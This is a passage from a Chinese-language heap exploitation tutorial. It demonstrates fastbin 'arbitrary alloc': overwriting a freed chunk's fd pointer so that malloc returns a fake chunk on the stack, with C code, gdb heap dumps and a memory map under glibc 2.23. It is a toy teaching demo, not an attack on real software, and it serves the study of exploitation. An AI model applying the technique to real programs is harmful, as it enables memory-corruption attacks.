 ## 演示
这次我们把fake_chunk置于栈中称为stack_chunk，同时劫持了fastbin链表中chunk的fd值，通过把这个fd值指向stack_chunk就可以实现在栈中分配fastbin chunk。
```
typedef struct _chunk
{
    long long pre_size;
    long long size;
    long long fd;
    long long bk;  
} CHUNK,*PCHUNK;

int main(void)
{
    CHUNK stack_chunk;
    
    void *chunk1;
    void *chunk_a;
    
    stack_chunk.size=0x21;
    chunk1=malloc(0x10);
    
    free(chunk1);
    
    *(long long *)chunk1=&stack_chunk;
    malloc(0x10);
    chunk_a=malloc(0x10);
    return 0;
}
```
通过gdb调试可以看到我们首先把chunk1的fd指针指向了stack_chunk
```
0x602000:	0x0000000000000000	0x0000000000000021 <=== chunk1
0x602010:	0x00007fffffffde60	0x0000000000000000
0x602020:	0x0000000000000000	0x0000000000020fe1 <=== top chunk
```
之后第一次malloc使得fastbin链表指向了stack_chunk，这意味着下一次分配会使用stack_chunk的内存进行
```
0x7ffff7dd1b20 <main_arena>:	0x0000000000000000 <=== unsorted bin
0x7ffff7dd1b28 <main_arena+8>:  0x00007fffffffde60 <=== fastbin[0]
0x7ffff7dd1b30 <main_arena+16>:	0x0000000000000000	
```
最终第二次malloc返回值为0x00007fffffffde70也就是stack_chunk
```
   0x400629 <main+83>        call   0x4004c0 <malloc@plt>
 → 0x40062e <main+88>        mov    QWORD PTR [rbp-0x38], rax
   $rax   : 0x00007fffffffde70
   
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/Ox9A82/tst/tst
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/Ox9A82/tst/tst
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/Ox9A82/tst/tst
0x0000000000602000 0x0000000000623000 0x0000000000000000 rw- [heap]
0x00007ffff7a0d000 0x00007ffff7bcd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7bcd000 0x00007ffff7dcd000 0x00000000001c0000 --- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dcd000 0x00007ffff7dd1000 0x00000000001c0000 r-- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd1000 0x00007ffff7dd3000 0x00000000001c4000 rw- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd3000 0x00007ffff7dd7000 0x0000000000000000 rw- 
0x00007ffff7dd7000 0x00007ffff7dfd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7fdb000 0x00007ffff7fde000 0x0000000000000000 rw- 
0x00007ffff7ff6000 0x00007ffff7ff8000 0x0000000000000000 rw- 
0x00007ffff7ff8000 0x00007ffff7ffa000 0x0000000000000000 r-- [vvar]
0x00007ffff7ffa000 0x00007ffff7ffc000 0x0000000000000000 r-x [vdso]
0x00007ffff7ffc000 0x00007ffff7ffd000 0x0000000000025000 r-- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffd000 0x00007ffff7ffe000 0x0000000000026000 rw- /lib/x86_64-linux-gnu/ld-2.23.so
```

  [1]: http://static.zybuluo.com/vbty/e8k7kq9w9a0fzm0qxfpzwpw5/%E6%8D%95%E8%8E%B7.PNG
  [2]: http://static.zybuluo.com/vbty/48ue5xatzz40sif5qnqu8syz/%E6%8D%95%E8%8E%B7.PNG
  [3]: http://static.zybuluo.com/vbty/0101jwbohr0r8sjha5yvxuu6/%E6%8D%95%E8%8E%B7.PNG
  [4]: http://static.zybuluo.com/vbty/ggyvxt73jujf9qlcnm429khb/%E6%8D%95%E8%8E%B7.PNG